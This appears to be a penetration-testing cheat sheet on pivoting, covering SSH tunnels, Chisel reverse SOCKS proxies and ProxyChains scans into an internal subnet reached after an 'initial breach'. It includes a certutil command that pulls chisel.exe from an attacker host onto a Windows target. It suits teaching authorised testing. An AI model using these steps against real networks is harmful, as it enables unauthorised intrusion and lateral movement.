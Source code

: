 ## 1. SSH Tunnels

### 1.1. Useful options to use with SSH tunnels

|Options|Description|
|---|---|
|`bind_address`|`0.0.0.0` means bind to all interfaces; defaults to `lo` loopback interface (`127.0.0.1`) if not specified|
|`-f`|Requests ssh to go to background just before command execution|
|`-N`|Do not execute a remote command. This is useful for just forwarding ports (protocol version 2 only).|
|`-o UserKnownHostsFile=/dev/null`|Pipe the host key to `/dev/null` i.e. do not record host key|
|`-o StrictHostKeyChecking=no`|Automatically add host key to host file (which is piped to `/dev/null` in above option|
|`-i /tmp/id_ecdsa`|Use identity file at `/tmp/id_ecdsa`|

### 1.2. Forward tunnels

**Forward**: direction of SSH connection is **same** as direction of access

#### 1.2.1. Forward static tunnel

##### Syntax

```sh
ssh -L [bind_address:]port:host:hostport [user@]hostname
```

##### Example

![image](/images/ssh-forward-static.png)

```sh
ssh -L 0.0.0.0:13306:10.0.2.91:3306 -L 0.0.0.0:13389:10.0.2.91:3389 user@10.0.1.81
```

#### 1.2.2. Forward dynamic tunnel (a.k.a. forward SOCKS proxy)

##### Syntax

```sh
ssh -D [bind_address:]port [user@]hostname
```

##### Example

![image](/images/ssh-forward-dynamic.png)

```sh
ssh -D 0.0.0.0:1080 user@10.0.1.81
```

### 1.3. Reverse Tunnels

**Reverse**: direction of SSH connection is **reverse** of direction of access

> [!Tip]
> 
> ##### For remote port forwarding:
> 
> - By default, the listening socket on the server can only bind to the `lo` loopback interface (`127.0.0.1`)
> - Set `GatewayPorts yes` in the server's `sshd_config` to enable binding to other interfaces
>
> ```sh
> sed -i 's/#GatewayPorts no/GatewayPorts yes/' /etc/ssh/sshd_config
> ```

#### 1.3.1. Reverse static tunnel

##### Syntax

```sh
ssh -R [bind_address:]port:host:hostport [user@]hostname
```

##### Example

![image](/images/ssh-reverse-static.png)

```sh
ssh -R 0.0.0.0:13306:10.0.2.91:3306 -R 0.0.0.0:13389:10.0.2.91:3389 user@192.168.2.61
```

#### 1.3.2. Reverse dynamic tunnel (a.k.a. reverse SOCKS proxy)

##### Syntax

```sh
ssh -R [bind_addr:]port [user@]hostname
```

##### Example

![image](/images/ssh-reverse-dynamic.png)

```sh
Example: ssh -R 0.0.0.0:1080 user@192.168.2.61
```

## 2. Chisel tunnels

> [!Tip]
>
> [Chisel](https://github.com/jpillora/chisel) is useful for Windows targets that does not have SSH

### 2.1. Preparing chisel binaries

Prepare server on Kali:


```sh
VERSION=$(curl -sI https://github.com/jpillora/chisel/releases/latest | grep location: | cut -d / -f 8 | tr -d '\r' | tr -d 'v')
curl -sLO https://github.com/jpillora/chisel/releases/download/v$VERSION/chisel_${VERSION}_linux_amd64.gz
gzip -d chisel_${VERSION}_linux_amd64.gz
mv chisel_${VERSION}_linux_amd64 chisel
chmod +x chisel
```

Prepare client binaries for Windows target to download

```sh
VERSION=$(curl -sI https://github.com/jpillora/chisel/releases/latest | grep location: | cut -d / -f 8 | tr -d '\r' | tr -d 'v')
curl -sLO https://github.com/jpillora/chisel/releases/download/v$VERSION/chisel_${VERSION}_windows_amd64.gz
gzip -d chisel_${VERSION}_windows_amd64.gz
mv chisel_${VERSION}_windows_amd64 /var/www/html/chisel.exe
```

Download client binaries on Windows target

```sh
certutil.exe -urlcache -f -split http://kali.vx/chisel.exe %TEMP%\chisel.exe
```

### 2.2. Chisel server configuration

##### Syntax

```sh
chisel server --reverse --port <port>
```

##### Example

```sh
chisel server --reverse --port 8080
```

### 2.3. Chisel Client configuration

#### 2.3.1. Reverse port forwarding

##### Syntax

```sh
chisel client <server> [R:[server-port]:[target-address]:[target-port]]
```

##### Example

![image](/images/chisel-reverse.png)

```sh
chisel client 192.168.2.61:8080 R:13306:10.0.2.91:3306 R:13389:10.0.2.91:3389
```

#### 2.3.2. Reverse SOCKS proxy

##### Syntax

```sh
chisel client <server> R:socks
```

##### Example

![image](/images/chisel-reverse-socks.png)

```sh
chisel client 192.168.2.61:8080 R:0.0.0.0:socks
```

## 3. ProxyChains

- Consider the reverse dynamic tunnel:
  - The accessing client `192.168.1.51` does not have a route to the `10.0.2.0/24` network
  - The initial breach to the host `10.0.1.81` managed to establish a reverse dynamic tunnel and now have a SOCKS proxy on `192.168.2.61:1080`
- ProxyChains can be used to chain any commands on the accessing client to use the SOCK proxy
- Edit the ProxyChains configuration file at `/etc/proxychains4.conf`

```sh
vi /etc/proxychains4.conf
```

- The default ProxyList configuration sets to "tor"

```sh
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

- Replace the proxy configuration to the SOCKS proxy created in 2.2.

```sh
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4  127.0.0.1 9050
socks5  192.168.2.61 1080
```

- Prepend commands targeted for `10.0.2.0/24` with `proxychains`

```sh
proxychains -q nmap -Pn -sT -A 10.0.2.0/24
```

> [!Tip]
>
> 1. ProxyChains only work for TCP traffic, i.e. ICMP (ping, traceroute) and SYN (-sS) scans will not work over ProxyChains
> 2. nmap uses `-sS` by default, so the `-sT` option to use TCP Connect() scan is required
> 3. Use `-O -sV -sC` instead of `-A` to omit running traceroute
> 4. nmap scan would be quite slow over ProxyChains, use `-F` to limit the port range to top 100 ports or try to use the pivot box to scan instead

